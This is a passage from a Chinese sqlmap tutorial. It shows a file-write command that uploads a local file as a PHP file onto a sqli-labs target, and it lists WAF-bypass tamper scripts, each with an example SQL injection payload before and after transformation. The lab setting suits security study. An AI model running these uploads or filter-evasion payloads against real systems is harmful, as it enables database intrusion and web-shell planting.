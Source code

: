 8、`--file-write ``--file-dest`：上传文件到数据库服务器中

该命令用于写入本地文件到服务器中，当数据库为MySQL、PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数时，上传的文件可以是文本，也可以是二进制文件。
```shell
sqlmap -u http://127.0.0.1/sqli-labs/Less-1/?id=1 --file-write "C:/1.txt" --file-dest "C:/windows/Temp/1.php"
```
执行结束即可把本地的1.txt 文件上传到目标服务器下
在这里插入图片描述
#### tamper

–tamper参数对数据做修改来绕过waf等设备
```shell
sqlmap -u <url> --tamper <模块名>
```
sqlmap的绕过脚本在目录usr/share/golismero/tools/sqlmap/tamper下



**apostrophemask.py**
适用数据库：ALL
作用：将引号替换为utf-8，用于过滤单引号
使用脚本前：`tamper("1 AND '1'='1")`
使用脚本后：`1 AND %EF%BC%871%EF%BC%87=%EF%BC%871`

**base64encode.py**
适用数据库：ALL
作用：替换为base64编码
使用脚本前：`tamper("1' AND SLEEP(5)#")`
使用脚本后：`MScgQU5EIFNMRUVQKDUpIw==`

**multiplespaces.py**
适用数据库：ALL
作用：围绕sql关键字添加多个空格
使用脚本前：`tamper('1 UNION SELECT foobar')`
使用脚本后：`1 UNION SELECT foobar`

**space2plus.py**
适用数据库：ALL
作用：用加号替换空格
使用脚本前：`tamper('SELECT id FROM users')`
使用脚本后：`SELECT+id+FROM+users`

**nonrecursivereplacement.py**
适用数据库：ALL
作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空）
使用脚本前：`tamper('1 UNION SELECT 2--')`
使用脚本后：`1 UNIOUNIONN SELESELECTCT 2--`

**space2randomblank.py**
适用数据库：ALL
作用：将空格替换为其他有效字符
使用脚本前：`tamper('SELECT id FROM users')`
使用脚本后：`SELECT%0Did%0DFROM%0Ausers`

**unionalltounion.py**
适用数据库：ALL
作用：将union allselect 替换为unionselect
使用脚本前：`tamper('-1 UNION ALL SELECT')`
使用脚本后：`-1 UNION SELECT`
